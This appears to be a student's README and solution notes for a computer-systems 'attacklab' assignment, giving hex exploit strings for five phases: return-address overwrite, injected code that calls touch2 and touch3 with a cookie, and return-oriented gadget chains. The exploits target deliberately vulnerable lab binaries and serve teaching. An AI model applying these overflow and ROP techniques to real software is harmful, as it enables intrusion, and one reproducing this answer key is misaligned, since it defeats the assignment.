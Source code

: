 This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.

# note
- generate raw: `./hex2raw < ctarget.inp > raw1.inp`
- debug that raw in gdb: `r < raw1.inp`

# Solution
### Phase 1:
- filling 0x18 bytes to override the return address of stack, add a few padding

### Phase 2:

48 83 ec 08 // sub $0x8,%rsp
48 c7 44 24 00 02 17 40 00  // movq   $0x00401702,0x0(%rsp)
c3// ret
00 00 00 00 00 // padding
88 74 61 55 // address of first ins below



ret -> to next first of instruction in the stack as string
88 74 61 55 // address of first ins below

mov $50fa73aa, $rdi
bf aa 73 fa 50 // bf = set value to rdi

rsp grow down to put phase two as the old position
48 83 ec 08 // sub $0x8,%rsp

put phase address to stack
02 17 40 00
48 c7 44 24 00 02 17 40 00 
48 c7 44 24 08 20 45 60 00	movq   $0x604520,0x8(%rsp)

ret
c3

#### optimization
this phase can be shorter by override ret for stack, don't need sub rsp those stuff, google for better Solution

### Phase 3:
48 c7 c7 b0 74 61 55 // set address of string to rdi
c3 // ret
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 74 61 55 00 00 00 00 // first ret (first rsp), jump to above ins
d6 17 40 00 00 00 00 00 // second ret (2nd rsp), jump to touch3
35 30 66 61 37 33 61 61 // string value of cookie
00


### Phase 4
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
7b 18 40 00 00 00 00 00 // first gadget - popq rax
aa 73 fa 50 00 00 00 00 // store cookie here
66 18 40 00 00 00 00 00 // second gadget - mov rax rdi
02 17 40 00 00 00 00 00 // touch2 address

### phase 5
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
7b 18 40 00 00 00 00 00 // pop rax
20 00 00 00 00 00 00 00 // value relative from the * position to address of cookie
de 18 40 00 00 00 00 00 // mov eax, ecx
b0 18 40 00 00 00 00 00 // mov ecx, edx
41 19 40 00 00 00 00 00 // mov edx, esi
c4 18 40 00 00 00 00 00 // mov rsp, rax
91 18 40 00 00 00 00 00 // mov rax, rdi
a2 18 40 00 00 00 00 00 // lea (rdi, rsi, 1), rax
91 18 40 00 00 00 00 00 // mov rax, rdi *
d6 17 40 00 00 00 00 00 // touch3 address
35 30 66 61 37 33 61 61 // string value of cookie
00
